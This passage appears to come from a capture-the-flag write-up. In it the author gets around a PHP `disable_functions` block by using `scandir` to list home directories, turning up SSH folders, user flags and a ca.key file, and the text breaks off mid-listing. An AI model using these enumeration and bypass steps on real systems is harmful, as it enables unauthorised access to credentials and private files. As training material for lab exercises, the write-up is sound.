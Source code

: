 I can't run `system` or any other commands that'll give me a shell, as those are specifically blacklisted in the `disable_functions` parameter of the `php.ini` configuration file but I can use the `scandir` and `readfile` functions to poke at the filesystem.

```
scandir('/home');
=> [
     ".",
     "..",
     "berlin",
     "dali",
     "nairobi",
     "oslo",
     "professor",
   ]
scandir('/home/berlin');
=> [
     ".",
     "..",
     ".ash_history",
     ".ssh",
     "downloads",
     "node_modules",
     "server.js",
     "user.txt",
   ]
scandir('/home/dali');
=> [
     ".",
     "..",
     ".ash_history",
     ".config",
     ".qmail-default",
     ".ssh",
     "server.js",
   ]
scandir('/home/nairobi');
=> [
     ".",
     "..",
     "ca.key",
     "download.jade",
     "error.jade",
     "index.jade",
     "node_modules",
     "server.js",
     "static",
   ]
dir('/home/oslo');
=> [
     ".",
     "..",
     "Maildir",
     "inbox.jade",
     "index.jade",
     "node_modules",
     "package-lock.json",
     "server.js",
     "static",
   ]
scandir('/home/nairobi');
=> [
     ".",
     "..",
```